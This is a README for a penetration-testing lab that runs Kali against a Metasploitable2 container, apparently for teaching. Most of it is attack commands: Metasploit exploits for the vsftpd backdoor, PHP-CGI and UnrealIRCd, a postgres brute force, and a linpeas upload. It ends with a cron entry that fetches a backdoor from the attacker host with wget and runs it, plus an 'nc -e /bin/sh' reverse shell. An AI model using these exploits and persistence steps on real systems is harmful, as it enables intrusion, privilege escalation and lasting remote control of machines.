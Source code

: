 
## Setup 

```bash
make up
make ps
```

```bash
make logs container=meta2
make logs container=kali 
```

```bash
make access container=meta2
make access container=kali
```

In each container, run:

```bash
ifconfig # you should see 172.20.0.3 for the attacker and 172.20.0.2 for the victim 
```

From kali, run:

```bash
nmap -F 172.20.0.2
```

## Penetration

### Privilege Escalation

From kali:

```bash
nmap -sV -p 21 172.20.0.2
```

```bash
msfconsole
search vsftpd
#   1  exploit/unix/ftp/vsftpd_234_backdoor
use 1
set rhosts 172.20.0.2
set rport 21
exploit
```

Now to check previliges, directly type:

```bash
whoami #root
```

### Password brute force
From kali:
```bash
msfconsole
search postgres
#   9   auxiliary/scanner/postgres/postgres_login
use 9
set rhosts 172.20.0.2
set STOP_ON_SUCCESS true
run
```

## Stop the containers

```bash
make down
```


## Demo
From kali:

We will run the script by exploiting a php vulnerability but from a non-privileged user
```bash
msfconsole
search php_cgi
use 0
set rhosts 172.20.0.2
exploit 

# we get a meterpreter session
upload linpeas_linux_amd64 . # from here, we upload the linpeas script to the victim
shell # we open a shell in victim
ls # check file was uploaded successfully
chmod 777 linpeas_linux_amd64
./linpeas_linux_amd64 -a > out.txt
exit
```
From meterpreter:
```bash
download out.txt
bg # Go back to msfconsole
```

From kali terminal:
```bash
less -r out.txt # Open linpeas file, search for /irc in the file
```

Go back to the session:
```bash
sessions -i* # list sessions
sessions -i 1 # go back to the first session
```


From msfconsole:
```bash
search unrealirc
use 0
set RHOSTS 172.20.0.2
set LHOST 172.20.0.3
set payload cmd/unix/reverse
exploit
# this creates a shell
whoami # root
shell
```

From root shell:
```bash
# Leaving a backdoor
echo '* * * * * root cd /tmp; wget 172.20.0.3/backdoor && chmod +x backdoor && ./backdoor' > /etc/cron.d/backdoor
```

From another kali terminal:
```bash
# write a backdoor script
nc -e /bin/sh 172.20.0.3 4499

# serve script using http server
python3 -m http.server 80

```

From another kali terminal:
```bash
nc -nlvp 499
# wait
```

Go back to the session:
```bash
sessions -i* # list sessions
sessions -i 1 # go back to the first session
```
